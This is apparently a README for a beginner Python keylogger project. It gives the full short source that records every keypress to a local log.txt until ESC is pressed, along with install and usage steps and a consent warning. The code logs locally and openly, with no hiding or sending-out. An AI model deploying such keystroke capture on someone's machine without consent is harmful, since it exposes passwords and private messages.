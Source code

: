 # Creation-of-a-Keylogger

A basic keylogger written in Python that records pressed keys to a text file.

## Legal Warning

**Use only for educational purposes or with explicit consent.** Unauthorized use of keyloggers may be illegal in many jurisdictions.

## Features

- Records all pressed keys in a `log.txt` file
- Automatically closes when `ESC` is pressed
- No additional dependencies required (only `keyboard` library)

## Requirements

- Python 3.x
- `keyboard` library

## Installation

1. Clone or download the repository
2. Install the required dependency:

```bash
pip install -r requirements.txt
```

**Note:** On Linux/macOS systems, you may need to run with administrator privileges:

```bash
sudo pip install -r requirements.txt
```

## Usage

Run the main script:

```bash
python main.py
```

The program will start recording all pressed keys. Press `ESC` to stop the keylogger and close the program.

## Output File

Keys are saved to `log.txt` in the same directory where the script is executed. The file is created automatically if it doesn't exist.

## Code Structure

The main functionality is in `main.py`:

```python
import keyboard

def press(key):
    with open("log.txt", "a") as log:
        log.write(key.name)

keyboard.on_press(press)
keyboard.wait('esc')
```

## How It Works

- `keyboard.on_press(press)`: Registers the function that executes with each key press
- `keyboard.wait('esc')`: Keeps the program running until ESC is pressed
- Each key is written to the file immediately

## Execution Examples

### Basic Execution
```bash
python main.py
```
Output: Creates `log.txt` with all pressed keys until ESC is pressed.

### Checking Output
```bash
python main.py
# Press some keys: hello world
# Press ESC
cat log.txt
```
Expected output in `log.txt`: `helloworld`

### With Administrator Privileges (Linux/macOS)
```bash
sudo python main.py
```

## Limitations

- Does not record special characters in readable format (shows key names)
- File opens and closes with each key (may impact performance on slow systems)
- No advanced configuration options

## Project Structure

```
keylogger-project/
├── main.py
├── requirements.txt
└── README.md
```

## Files

- `main.py`: Main keylogger script
- `requirements.txt`: Python dependencies
- `README.md`: This documentation file

## Possible Improvements

- Filter specific keys
- Add timestamps
- Format output for better readability
- Add more exit options
- Add configuration file

